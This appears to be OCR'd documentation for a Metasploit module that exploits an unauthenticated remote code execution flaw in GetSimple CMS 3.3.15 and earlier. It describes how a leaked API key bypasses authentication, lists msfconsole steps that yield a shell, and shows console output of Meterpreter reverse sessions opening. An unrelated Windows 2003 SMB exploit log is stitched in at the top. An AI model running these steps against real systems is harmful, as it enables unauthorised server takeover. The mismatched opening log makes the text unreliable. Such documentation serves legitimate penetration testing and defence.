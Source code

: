 ```
[*] 192.168.1.109:445 - We could not detect the language pack, defaulting to English
[*] 192.168.1.109:445 - Selected Target: Windows 2003 SP2 English (NX)
[*] 192.168.1.109:445 - Attempting to trigger the vulnerability...
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.80:1071) at 2016-03-02 19:32:49 -0600

[*] Sending stage (957999 bytes) to 192.168.1.109
[*] Meterpreter session 2 opened (192.168.1.199:4444 -> 192.168.1.109:4626) at 2016-03-02 19:32:52 -0600
```

## Description

---

This module exploits a vulnerability found in GetSimpleCMS, which allows unauthenticated attackers to perform Remote Code Execution. An arbitrary file upload vulnerability can be triggered by an authenticated user, however authentication can be bypassed by leaking the cms API key to target the session manager.

## Vulnerable Application

---

GetSimple CMS versions 3.3.15 and below

Vulnerable installations can be found [here](http://get-simple.info/)

## Verification Steps

---

1. Install the application
2. Start msfconsole
3. Do: `use exploit/multi/http/getsimplecms_unauth_code_exec`
4. Do: `set RHOSTS http://10.129.6.57`
5. Do: `run`
6. You should get a shell.

## Scenarios

---

### Tested on GetSimple CMS v3.3.15 on Ubuntu 18.04

---

```
  msf5 > use exploit/multi/http/getsimplecms_unauth_code_exec
  msf5 exploit(multi/http/getsimplecms_unauth_code_exec) > set rhosts 192.168.37.137
  rhosts => 192.168.37.137
  msf5 exploit(multi/http/getsimplecms_unauth_code_exec) > set verbose true
  verbose => true
  msf5 exploit(multi/http/getsimplecms_unauth_code_exec) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444
  [*] GetSimpleCMS version 3315
  [*] Sending stage (38247 bytes) to 192.168.37.137
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.137:32976) at 2019-05-16 11:22:39 -0500

  meterpreter > getuid
  Server username: www-data (33)
  meterpreter > sysinfo
```